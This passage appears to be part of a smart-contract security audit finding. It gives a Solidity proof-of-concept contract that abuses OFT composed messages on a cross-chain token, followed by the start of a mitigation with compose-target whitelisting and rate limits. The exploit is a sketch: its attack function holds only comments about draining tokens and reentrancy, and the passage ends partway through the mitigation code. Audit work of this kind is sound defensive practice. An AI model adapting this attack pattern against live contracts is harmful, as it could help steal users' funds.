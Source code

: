 ### Proof of Concept
```solidity
contract MaliciousOFTExploit {
    function exploit(address oft, uint32 dstEid) external {
        // 1. Create malicious composed message
        bytes memory maliciousCallback = abi.encodeWithSignature(
            "attack(address,uint256)",
            address(this),
            1000000
        );
        
        // 2. Send OFT transfer with malicious compose
        SendParam memory param = SendParam({
            dstEid: dstEid,
            to: bytes32(uint256(uint160(address(this)))),
            amountLD: 1000,  // Small amount to pass checks
            minAmountLD: 1000,
            extraOptions: "",
            composeMsg: maliciousCallback,  // Malicious callback
            oftCmd: ""
        });
        
        // 3. Execute attack
        IOFT(oft).send(param, MessagingFee(0, 0), address(this));
        
        // 4. On destination chain, malicious callback executes
        // - Can perform reentrancy
        // - Can manipulate token balances
        // - Can execute arbitrary code
    }
    
    // Malicious callback function on destination chain
    function attack(address target, uint256 amount) external {
        // Perform malicious actions
        // - Drain tokens
        // - Manipulate state
        // - Trigger more cross-chain messages
    }
}
```

### Recommended Mitigation
1. Implement strict message validation:
```solidity
contract OFTCore {
    // Whitelist of allowed compose message targets
    mapping(address => bool) public allowedComposeTargets;
    
    function _lzReceive(...) internal virtual override {
        // ... existing code ...
        
        if (_message.isComposed()) {
            // Validate compose message target
            address target = _decodeComposeTarget(_message.composeMsg());
            require(allowedComposeTargets[target], "Invalid compose target");
            
            // Validate compose message content
            require(_isValidComposeMsg(_message.composeMsg()), "Invalid compose msg");
            
            // Rate limit checks
            require(_isWithinRateLimit(target), "Rate limit exceeded");
            
            bytes memory composeMsg = OFTComposeMsgCodec.encode(...);
```